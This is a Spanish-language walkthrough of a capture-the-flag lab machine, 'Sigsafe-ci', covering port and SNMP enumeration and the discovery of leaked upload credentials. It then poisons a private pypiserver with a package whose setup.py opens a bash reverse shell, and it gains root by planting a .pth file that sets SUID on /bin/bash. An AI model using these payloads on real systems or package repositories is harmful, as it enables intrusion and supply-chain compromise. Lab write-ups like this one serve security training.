


## Table of contents

## Enumeración

La máquina Sigsafe-ci tiene la ip **10.0.2.76**

### Descubrimiento de Puertos TCP

Vamos a empezar enumerando todos los puertos abiertos por **TCP** de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.76

Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
8082/tcp open  http    WSGIServer 0.2 (Python 3.13.5)
|_http-server-header: WSGIServer/0.2 CPython/3.13.5
|_http-title: Welcome to pypiserver!
```

### Descubrimiento de Puertos UDP

Ahora volvemos a utilizar **nmap** pero para enumerar el top 100 de puertos más comunes por **UDP**.

```bash
nmap -sU --top-port 100 --open -n -Pn 10.0.2.76

Nmap scan report for 10.0.2.76
Host is up (0.00048s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
```

### Puerto 161 UDP (SNMP)

La máquina está ejecutando el servicio **Simple Network Management Protocol** (**SNMP**). Vamos a consultarlo utilizando como *Community string* el nombre de la máquina, **sigsafe-ci**.


```bash
snmpwalk -c sigsafe-ci -v2c 10.0.2.76

iso.3.6.1.2.1.1.1.0 = STRING: "Linux TheHackersLabs-sigsafe-ci 6.12.96+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.96-1 (2026-07-20) x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (94064) 0:15:40.64
iso.3.6.1.2.1.1.4.0 = STRING: "\"ci-ops. pip publishing robot (authenticated upload): nohh022 / Sg5Gig4eXHBboVH  -- to be migrated to the vault.\""
iso.3.6.1.2.1.1.5.0 = STRING: "\"sigsafe-ci\""
```

Hemos averiguado:
- La web posee un servicio para subir archivos.
- Las credenciales para subir archivos, **nohh022**:**Sg5Gig4eXHBboVH**

**Nota**: Más me vale cambiar mi contraseña.

### Puerto 8082 TCP (Web)

Accedemos con el navegador al puerto 8082 de la ip y nos encontramos un **pyserver**, es un servidor web creado con Python.



Este **pyserver** nos permite descargar e instalar una librería llamada **sigsafe-crypto-utils** de la cual tenemos dos versiones.



Nos descargamos la versión **1.4.2** y la descomprimimos.

```bash
tar -xzvf sigsafe_crypto_utils-1.4.2.tar.gz

sigsafe_crypto_utils-1.4.2/
sigsafe_crypto_utils-1.4.2/PKG-INFO
sigsafe_crypto_utils-1.4.2/pyproject.toml
sigsafe_crypto_utils-1.4.2/setup.cfg
sigsafe_crypto_utils-1.4.2/src/
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils/
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils/__init__.py
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils.egg-info/
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils.egg-info/PKG-INFO
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils.egg-info/SOURCES.txt
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils.egg-info/dependency_links.txt
sigsafe_crypto_utils-1.4.2/src/sigsafe_crypto_utils.egg-info/top_level.txt
```

## Explotación
### Command Injection via setup.py

Ya que dispones de credenciales para subir archivos, vamos a modificar este sigsafe_crypto_utils para crear una nueva versión que nos envíe una reverse shell a nuestro equipo.

Para ello, creamos un **setup.py** que contenga nuestra reverse shell.

```bash
import os
os.system('bash -c "bash -i >& /dev/tcp/10.0.2.61/4444 0>&1"')
```

El directorio del sigsafe_crypto_utils-1.4.2 queda de esta manera:

```bash
PKG-INFO  pyproject.toml  setup.cfg  setup.py  src
```

Ahora lo comprimimos como la versión **1.6.2** y nos ponemos en escucha con **netcat**.

```bash
tar -czf sigsafe_crypto_utils-1.6.2.tar.gz sigsafe_crypto_utils-1.4.2
```

```bash
nc -nlvp 4444
```

Hecho esto, vamos a proceder a subirlo al repositorio del **pysever**, para ello vamos a crearnos un entorno virtual con Python3 y a instalar **twine**.

```bash
pip install twine
```

**Twine** es una herramienta para publicar paquetes de Python en repositorios de paquetes, en este caso, el **pyserver** de la máquina. 

Empleamos **twine** para subir nuestro **sigsafe_crypto_utils-1.6.2.tar.gz** al pyserver con las credenciales que habíamos encontrado.

Nos aparecen dos ventanas emergentes pidiendo nuestra autenticación como **root** de nuestro sistema, le damos a la tecla **Esc** o **Cancelar**, ya que no son necesarias para que funcione la explotación. 

Una vez hecho, introducimos las credenciales del usuario obtenido por **SNMP**.

```bash
python -m twine upload --repository-url http://10.0.2.76:8082/ sigsafe_crypto_utils-1.6.2.tar.gz

enter your username: nohh022

enter your password: Sg5Gig4eXHBboVH

Uploading sigsafe_crypto_utils-1.6.2.tar.gz
100% ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.5/2.5 kB • 00:00 • ?
```

El archivo se sube correctamente. Tras esperar un poco recibimos la reverse shell como el usuario **znbz**.


``` bash 
znbz@TheHackersLabs-sigsafe-ci:~$ ls -la
total 40
drwx------ 4 znbz znbz 4096 Aug  2 04:06 .
drwxr-xr-x 5 root root 4096 Aug  1 01:07 ..
lrwxrwxrwx 1 znbz znbz    9 Aug  1 01:01 .bash_history -> /dev/null
-rw-r--r-- 1 znbz znbz  220 May  9 12:07 .bash_logout
-rw-r--r-- 1 znbz znbz 3526 May  9 12:07 .bashrc
drwxrwxr-x 4 znbz znbz 4096 Aug 22 17:40 .cache
-rw-r--r-- 1 znbz znbz 5290 Aug 28  2025 .face
lrwxrwxrwx 1 znbz znbz    5 Aug 28  2025 .face.icon -> .face
drwx------ 3 znbz znbz 4096 Jul 31 15:43 .local
-rw-r--r-- 1 znbz znbz  807 May  9 12:07 .profile
-rw-r----- 1 znbz znbz   33 Jul 31 15:44 user.txt
```

## Escalada de Privilegios
### Root

Vamos a utilizar **pspy64** para ver las tareas que se ejecutan periódicamente en el server.

Nos lo pasamos a la máquina y lo ejecutamos.

```bash
znbz@TheHackersLabs-sigsafe-ci:~$ ./pspy64
....
2026/08/22 17:45:22 CMD: UID=0     PID=1858   | /bin/sh -c /opt/ci/healthenv/bin/python /opt/ci/healthcheck.py >> /var/log/sigsafe/health.log 2>&1 
...
```

EL usuario **root** está ejecutando un script de python del directorio **/opt/ci** usando un entorno virtual situado en **/opt/ci/healtenv**.


Si revisamos los directorios de ese entorno virtual encontramos algo muy intersante, tenemos permisos de escritura sobre `/opt/ci/healthenv/lib/python3.13/site-packages`

```bash
znbz@TheHackersLabs-sigsafe-ci:~$ ls -la /opt/ci/healthenv/lib/python3.13/site-packages
total 8
drwxrwsr-x 2 root znbz 4096 Aug  2 04:07 .
drwxr-xr-x 3 root root 4096 Jul 31 15:29 ..
```

En este directorio, Python almacena los paquetes y librerías instalados. Como tenemos permisos de escritura sobre él y hemos comprobado que el script de Python se ejecuta periódicamente como root usando ese entorno virtual, vamos a crear un archivo **exploit.pth** que otorgue permisos **SUID** a bash.

De esta forma, cuando el script se ejecute, Python procesará nuestro **exploit.pth** del directorio site-packages y ejecutará su contenido. Al ejecutarse el script con privilegios de root, podremos obtener una shell con dichos privilegios.


Creamos el **exploit.pth** y le damos permisos de ejecución.

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > /opt/ci/healthenv/lib/python3.13/site-packages/exploit.pth
chmod +x exploit.pth
```

Esperamos un poco ya que tarda bastante en ejecutarse y la bash obtiene permisos **SUID**. 

Nos lanzamos una bash privilegiada para convertirnos en **root**.

```bash
znbz@TheHackersLabs-sigsafe-ci:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1298416 May  9 12:07 /bin/bash

znbz@TheHackersLabs-sigsafe-ci:~$ bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root
total 40
drwx------  5 root root 4096 Aug  1 00:59 .
drwxr-xr-x 19 root root 4096 Jul 31 15:38 ..
lrwxrwxrwx  1 root root    9 Aug  1 00:59 .bash_history -> /dev/null
-rw-r--r--  1 root root  607 May  8 17:10 .bashrc
drwx------  3 root root 4096 Jul 31 15:26 .cache
drwx------  3 root root 4096 Jul 28 19:56 .local
-rw-r--r--  1 root root  132 May  8 17:10 .profile
-rw-------  1 root root   34 Jul 31 15:43 root.txt
drwx------  2 root root 4096 Jul 23 21:40 .ssh
-r-xr-xr-x  1 root root 7048 Jul 23 23:27 vboxpostinstall.sh
```